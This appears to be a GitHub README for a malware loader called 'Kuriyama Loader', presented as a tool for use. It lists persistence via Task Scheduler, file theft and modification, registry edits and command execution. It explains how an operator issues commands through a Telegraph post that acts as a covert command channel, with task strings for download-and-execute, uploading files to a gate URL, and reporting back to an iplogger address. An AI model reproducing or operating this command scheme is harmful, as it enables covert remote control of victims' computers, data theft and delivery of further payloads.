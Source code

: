 <h1>Kuriyama Loader</h1>
<h3>Functions</h3>
<ul style="list-style-type:disc">
  <li>Task Scheduler startup</li>
  <li>Process restart every minute</li>
  <li>Search/Modify files</li>
  <li>Download/Upload files</li>
  <li>Execute commands in CMD</li>
  <li>Modify registry</li>
  <li>Process check</li>
  <li>Process start</li>
  <li>Callback after task complete</li>
</ul>
<br>
<h3>Usage</h3>
<pre>Make a post at <a href="http://telegra.ph">Telegraph</a>.<br>
Name and descriptions should be "Kur" (without quotes).<br> 
Every command - from new line in the content input.
</pre>
<h4>Task examples</h4>
<ul style="list-style-type:disc">
  <li>Main - type;subtype;...;iplogger!</li>
  <li>File search - files;search;file_path;http://iplogger!</li>
  <li>File write - files;write;file_path;content;http://iplogger!</li>
  <li>Download and execute - net;load;file_download_url;file_name;http://iplogger!</li>
  <li>Upload file - net;upload;gate_url;file_path;http://iplogger!</li>
  <li>Execute cmd command - system;cmd;command;http://iplogger!</li>
  <li>Registry write - system;registry;key;key_name;value;http://iplogger!</li>
  <li>Process check - system;check_process;process_name;http://iplogger!</li>
  <li>Process start - system;run_process;file_path;http://iplogger!</li>
</ul>
